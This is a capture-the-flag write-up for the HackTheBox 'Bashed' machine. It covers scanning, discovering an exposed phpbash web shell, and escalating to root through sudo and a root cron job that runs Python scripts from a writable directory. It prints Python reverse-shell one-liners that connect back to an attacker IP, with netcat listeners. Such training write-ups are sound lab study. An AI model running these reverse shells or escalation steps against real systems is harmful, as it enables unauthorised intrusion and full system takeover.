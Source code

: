 # Bashed [HTB](https://app.hackthebox.com/machines/Bashed)
![bashed-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/bashed-01.png)


## Recon

I start by adding the target to my `/etc/hosts` file.

Then i fire off `nmap` to scan it:

```bash
nmap -sC -sV -A -p- bashed.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/nmap-res-02.png)


We have the following:

+ An Apache server on port 80. 


Lets see what this site has to offer. 


## Apache port 80


Lets open our browser and navigate towards the target site at `http://bashed.htb`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/site-03.png)


The site talks about different tools developed for pentesting, at the moment we only see the `phpbash` 
tool with a valid link. Lets check it out:

![phpbash-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/phpbash-04.png)


If we click on the [Github link](https://github.com/Arrexel/phpbash) we will be brought to the following 
page:

![github-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/github-05.png)

Sounds useful, lets see how to use this tool:

![usage-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/usage-06.png)

Accourding to the instructions, we need to upload the tool to the target server and access it through the URL to get a web-shell. However, the target site said that this tool was developed on the same machine,
so this `phpbash` should be somewhere on the server, lets try and find it. 

I use `ffuf` for directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-big.txt -u http://bashed.htb/FUZZ
```

![dev-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-07.png)

This `dev` directory looks promising, lets check it out:

![dev-dir-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-dr-08.png)

Here it is, if we click it we get access to the system:

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/shell-09.png)

Lets try to elavate our privileges. 


## Privilege Escalation

If we take a look at the `/etc/passwd` file:

```bash
cat /etc/passwd
```

![passwd-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/passwd-10.png)

We can see we have two valid user accounts on the system that are not service accounts. Now if we take a 
look at the `sudo` permissions with:

```bash
sudo -l
```

![sudo-privs-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/sudo-privs-11.png)


As you can see, the `www-data` user can run any command without a password as the `scriptmanager` user.
So we can pop a shell as `scriptmanager` fairly easily with sudo, but first, we need an actual TTY shell, 
not a web shell. 

We can use a one liner revese shell, but first lets setup the listener with:

```bash
rlwrap nc -lnvp 443
```

Then we can use Python for the reverse shell:

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![tty-shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/tty-shell12.png)

Now we can switch to the `scriptmanager` user by running:

```bash
sudo -u scriptmanager /bin/bash
```

![switch-user-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/switch-user-13.png)

If we go to the root directory and run `ls` we can see something unusual:

![scripts-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-14.png)


If we `cd` into this directory and run `ls -l` inside we can see the following:

![scripts-ll-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-ll-15.png)


We have a python script, owned by our user, and a `test.txt` file owned by root. Lets take a look at the python script:

![py-script-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/py-script-16.png)

The script simply creates a file called `test.txt` and writes `testing 123!` to it. This is the file ownedby root we saw before in our current directory. The fact taht the file is owned by root tells me there is a task running in the background periodically as the root user, executing this `test.py` script. 

We can verify this with [pspy64](https://github.com/DominicBreuker/pspy):

![task-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/task-17.png)


This is bad, we have a task running as root, executing files ending with a `.py` extension, found in a directory owned by a low-privileged user. Escalation in this scenario is fairly trivial, since we can execute
any command we want as root, through these python scripts.

All we need to do is paste a one-liner Python reverse shell into a file in the `/scripts` directory:

```bash
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' >> pwned.py
```

Setup a listener:

```bash
rlwrap cn -lnvp 9001
```

And we should get a shell as root:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/root-18.png)
